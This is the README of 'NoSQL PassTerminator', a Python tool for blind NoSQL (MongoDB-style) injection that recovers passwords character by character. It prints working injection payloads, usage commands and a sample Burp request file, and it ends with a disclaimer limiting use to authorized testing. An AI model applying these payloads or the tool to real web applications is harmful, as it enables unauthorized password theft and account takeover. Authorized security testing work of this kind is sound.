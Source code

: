 # 🔐 NoSQL PassTerminator

*Automated Blind NoSQL Injection Password Cracker*
By **0xTensai**

---

### 📌 Description

**NoSQL PassTerminator** is a blind injection tool designed to extract passwords from NoSQL-based web apps (typically MongoDB-style injections). It automates the detection of password length and performs character-by-character guessing using time-efficient multithreading.

---

### 🧪 Injection Strategy

It uses JavaScript-based injection such as:

```javascript
' && this.password[0] == 'a' || 'a'=='b
```

---

### ✅ Features

* 🔍 Blind password length detection
* 🧠 Smart multithreaded brute-force logic
* 📦 Takes raw HTTP request files (Burp-style)
* 🎯 Fail-string or raw response comparison modes
* 🧾 Save cracked passwords to file
* 🔡 Custom charset and casing options

---

### ⚙️ Requirements

* Python 3.x
* `requests`
  Install with:

```bash
pip install requests
```

---

### 🚀 Usage

```bash
python3 nosql.py -r request.req -p user -n administrator -f "user not found"
```

Or with response comparison:

```bash
python3 nosql.py -r request.req -p user -n administrator --compare-mode
```

---

### 🧾 Arguments

| Flag                  | Description                                                                 |
| --------------------- | --------------------------------------------------------------------------- |
| `-r`, `--request`     | Path to raw HTTP request file (Burp format)                                 |
| `-p`, `--param`       | Name of the POST parameter to inject (e.g., `user`)                         |
| `-n`, `--username`    | Username value to attack (e.g., `administrator`)                            |
| `-f`, `--fail-string` | Failure message shown on incorrect guess (not needed with `--compare-mode`) |
| `--compare-mode`      | Use response difference instead of fail-string                              |
| `--max-length`        | Max password length to try (default: `30`)                                  |
| `-o`, `--output`      | Save cracked password to a file                                             |

---

### 💡 Charset Selection (Interactive Prompt)

During execution, you will be prompted to choose:

**Character set:**

* `1` → Alphabets only
* `2` → Alphabets + Numbers
* `3` → Alphabets + Numbers + Special Characters

**Casing:**

* `1` → Lowercase
* `2` → Uppercase
* `3` → Both

---

### 🔍 Sample Injection Payload

```
user=admin' && this.password[2] == 'm' || 'a'=='b
```

---

### 📥 Example `.req` File Format

```
POST /user/lookup HTTP/1.1
Host: vulnerable.site
Content-Type: application/x-www-form-urlencoded
Cookie: session=abc123

user=admin
```

---

### ✅ Example Run

```bash
python3 nosql.py -r login.req -p user -n administrator -f "user not found"
```

---

### ⚠️ Disclaimer

This tool is for **educational purposes** and **authorized testing only**.
Do **not** use it on targets you do not own or have permission to assess.

---

### 👨‍💻 Author

**🧠 0xTensai** — Offensive security, automation, and tool development.
